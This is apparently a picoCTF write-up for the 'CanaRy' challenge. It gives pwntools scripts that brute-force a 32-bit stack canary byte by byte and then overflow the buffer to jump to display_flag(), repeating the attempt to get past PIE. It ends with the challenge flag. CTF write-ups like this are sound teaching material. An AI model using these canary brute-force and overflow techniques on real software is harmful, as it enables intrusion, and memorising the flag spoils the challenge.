

# CanaRy (Binary)


Hints at brute forcing the canary so lets start with that


```python
#!/usr/bin/env python

from pwn import *


def canary_brute():
	result = ""
	for i in range(4):
		for k in range(256):
			r = process('./vuln')

			r.sendlineafter('> ', str(33+i))

			test = 'A'*32+result+chr(k)

			r.sendlineafter('> ', test)
			out = r.recvline()
			r.close()
			if 'Now' in out:
				result+=chr(k)
				break
			

	return u32(result)

if __name__ == '__main__':
	canary = canary_brute()
	log.info("Canary Found        " + hex(canary))
```

Test it locally then run it on the server and we can update the canary since it never changes according to the source code.



Next is building our payload but another brute force is required due to PIE enabled since we wont know the address of display_flag(). Good thing its 32 bit

Lets run gdb, run the program and get the address of display_flag() and just run a loop hoping it will get used again. I set the program to run to an output.txt in order to hopefully grep the pico flag

```python
#!/usr/bin/env python

from pwn import *

context.log_level = 'error'

def canary_brute():
	result = ""
	for i in range(4):
		for k in range(256):
			r = process('./vuln')

			r.sendlineafter('> ', str(33+i))

			test = 'A'*32+result+chr(k)

			r.sendlineafter('> ', test)
			out = r.recvline()
			r.close()
			if 'Now' in out:
				result+=chr(k)
				break
			

	return u32(result)

def exploit():

	canary = 0x48366137
	#canary = 'CCCC'
	#load
	p = process('./vuln')
	e = ELF('./vuln')

	#addr
	flag = 0x565557ed
	#send length of entry
	p.sendlineafter('> ', '56')

	offset = 32

	#payload
	payload = ''
	payload+= 'A'*offset
	payload+= p32(canary)
	payload+= 'B'*16
	payload+= p32(flag)
	p.sendlineafter('Input> ', payload)

	print p.recv()

	p.close()

if __name__ == '__main__':
	#canary = canary_brute()
	#log.info("Canary Found        " + hex(canary))
	
	for i in range(1000):
		exploit()
```

<details>
	<summary>Flag</summary>

picoCTF{cAnAr135_mU5t_b3_r4nd0m!_0e5152a1}
</details>